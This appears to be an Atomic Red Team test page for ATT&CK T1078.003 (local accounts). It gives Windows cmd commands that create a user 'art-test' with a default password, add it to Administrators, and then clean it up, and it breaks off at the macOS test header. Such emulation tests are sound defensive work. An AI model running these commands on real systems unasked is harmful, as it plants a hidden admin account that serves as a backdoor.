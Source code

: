 ```yaml
---
tags: [T1078_003, atomic_test]
filename: "[[T1078.003|T1078.003 - Valid Accounts: Local Accounts]]"
---
```

# T1078.003 - Valid Accounts: Local Accounts

## Atomic Test #1 - Create local account with admin privileges
After execution the new account will be active and added to the Administrators group

**Supported Platforms:** Windows


**auto_generated_guid:** a524ce99-86de-4db6-b4f9-e08f35a47a15





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| password | Password for art-test user | string | -4RTisCool!-321|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user art-test /add
net user art-test #{password}
net localgroup administrators art-test /add
```

#### Cleanup Commands:
```cmd
net localgroup administrators art-test /delete >nul 2>&1
net user art-test /delete >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - Create local account with admin privileges - MacOS
After execution the new account will be active and added to the Administrators group

**Supported Platforms:** macOS
